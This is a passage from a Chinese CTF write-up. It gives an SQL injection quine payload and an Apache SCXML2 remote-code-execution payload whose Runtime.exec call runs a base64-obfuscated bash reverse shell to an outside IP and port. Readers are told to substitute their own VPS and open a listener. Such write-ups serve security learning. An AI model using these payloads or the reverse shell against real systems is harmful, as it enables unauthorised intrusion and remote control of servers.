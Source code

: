 
基本上就是这种思路了



payload：

```sql
1'UNION(SELECT(REPLACE(REPLACE('1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#',CHAR(34),CHAR(39)),CHAR(37),'1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#')))#
```

![image-20230423155425281](https://s2.loli.net/2023/04/23/Qi3aLjHIevkZFd4.png)





#### BabyJxVx

> 考点：Apache SCXML2 RCE

[Apache SCXML2 RCE分析](https://www.yuque.com/boogipop/okvgcs/zzx3n35xsg26ss0e?view=doc_embed)

暂时不懂为什么

直接放payload：

```xml
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
    <final id="run">
        <onexit>
            <assign location="flag" expr="''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}')"/>
        </onexit>
    </final>
</scxml>
```

然后上传到服务器上面，`poc.xml`

注意base64要替换为自己的vps信息，然后在服务器上开启监听：

<img src="https://s2.loli.net/2023/04/28/QkzTJGgnpCYmEwq.png" alt="image-20230428115926577" style="zoom:50%;" />

![image-20230428120008392](https://s2.loli.net/2023/04/28/iSUQgdNza9xtkAT.png)

然后命令执行得flag

<img src="https://s2.loli.net/2023/04/28/HD6uw28tZUVKPxk.png" alt="image-20230428120105755" style="zoom:33%;" />





### misc

#### hardMisc
